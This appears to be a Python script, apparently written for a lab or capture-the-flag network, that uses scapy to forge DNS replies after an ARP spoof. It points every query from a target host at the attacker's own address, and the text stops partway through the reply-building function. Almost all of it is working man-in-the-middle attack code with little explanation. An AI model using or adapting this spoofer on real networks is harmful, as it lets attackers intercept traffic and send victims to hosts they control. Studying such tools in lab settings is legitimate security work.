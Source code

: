 # https://jasonmurray.org/posts/scapydns/ saved the day
# https://www2.cs.duke.edu/courses/fall16/compsci356/DNS/DNS-primer.pdf for better understanding
# Modified it that it runs endless so dns is always spoofed to check payloads

from scapy.all import *
import netifaces as ni
import uuid

# Our eth0 IP
ipaddr_own = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our Mac Addr
mymacaddress = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])
#targetmacaddress = '4c:24:57:ab:ed:84'
ipaddr_we_arp_spoofed = "10.6.6.53"
# destination ip we arp spoofed
ipaddr_target = "10.6.6.35"

def handle_dns_request(packet):
    # Need to change mac addresses, Ip Addresses, and ports below.)/DNS
    # We also need
    eth = Ether(
        src=packet[Ether].dst,
        dst=packet[Ether].src
        )   # need to replace mac addresses
    ip  = IP(
        src=packet[IP].dst,
        dst=packet[IP].src
        )                          # need to replace IP addresses
    udp = UDP(
        dport=packet[UDP].sport,
        sport=packet[UDP].dport
        )                             # need to replace ports
    dns = DNS(
        id=packet[DNS].id,
        qd=packet[DNS].qd,
        aa=1,
        rd=0,
        qr=1,
        qdcount=1,
        ancount=1,
        nscount=0,
        arcount=0,
        ar=DNSRR(
            rrname=packet[DNS].qd.qname,
            type='A',
            ttl=600,
            rdata=ipaddr_own)
    )